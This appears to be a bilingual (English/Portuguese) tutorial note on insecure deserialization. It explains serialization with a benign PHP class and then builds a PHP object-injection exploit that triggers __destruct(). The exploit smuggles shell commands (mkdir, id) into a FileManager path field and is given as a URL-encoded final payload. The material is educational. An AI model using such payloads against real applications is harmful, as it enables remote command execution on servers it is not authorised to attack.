

# Insecure Deserialization

## What is serialization?

**Serialization** is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes. Serializing data makes it much simpler to:

* Write complex data to inter-process memory, a file, or a database
* Send complex data, for example, over a network, between different components of an application, or in an API call

Crucially, when serializing an object, its state is also persisted. In other words, the object's attributes are preserved, along with their assigned values.

object-1-image.jpg

Essa forma de compactação pode ser em dois tipos: binário ou human-readable. Os Binários são: Java serialization, python pickle, C++ Object Representationm, etc. Os Human-Readable são: JSON, XML, YAML, SOAP, PHP Serialization, etc.

Vamos ver um exemplo de como podemos serializar um objeto

```php
<?php

class Car
{
    public string $color = "White";
    public string $model = "Golf";
    public int $wheel = 4;

    public function accelerate()
    {
        echo "Accelerating the car...";
    }

    public function toBrake()
    {
        echo "Braking the car...";
    }
}

$myCar = new Car();
echo serialize($myCar);
```

Se rodarmos

```
$ php index.php 

O:3:"Car":3:{s:5:"color";s:5:"White";s:5:"model";s:4:"Golf";s:5:"wheel";i:4;}
```

TYPE:QTY:VALUE

## PHP

Nos exemplos a seguir, podemos ver que é possível explorar a insecure deserialization por causa do magic method `__destruct()`&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Com isso, podemos montar um array com um objeto serializado da classe FileManager, explorando the magic method `__destruct()` do PHP.

```php
<?php

class FileManager
{
    public $path = "/tmp/test/;mkdir /tmp/rce/; id>/tmp/rce/id.txt; echo";
}

echo serialize(array('payload' => new FileManager));
```

Irá exibir:


```
a:1:{s:7:"payload";O:11:"FileManager":1:{s:4:"path";s:52:"/tmp/test/;mkdir /tmp/rce/; id>/tmp/rce/id.txt; echo";}}
```


Porém, se enviarmos apenas esse payload não irá funcionar pois é chamado o método `isAuth()` e ela não existe na class `FileManager`. Com isso, uma forma de fazer ser chamado a função `__destruct()` (que é o que queremos), é gerar um erro inexperado. Podemos então alterar o array para duas posições e assim irá funcionar (lembrando que é necessário fazer o url encoding).


```
a:2:{s:7:"payload";O:11:"FileManager":1:{s:4:"path";s:52:"/tmp/test/;mkdir /tmp/rce/; id>/tmp/rce/id.txt; echo";}}
```


O payload final ficará assim:


```
a%3A2%3A%7Bs%3A7%3A%22payload%22%3BO%3A11%3A%22FileManager%22%3A1%3A%7Bs%3A4%3A%22path%22%3Bs%3A52%3A%22%2Ftmp%2Ftest%2F%3Bmkdir%20%2Ftmp%2Frce%2F%3B%20id%3E%2Ftmp%2Frce%2Fid.txt%3B%20echo%22%3B%7D%7D
```

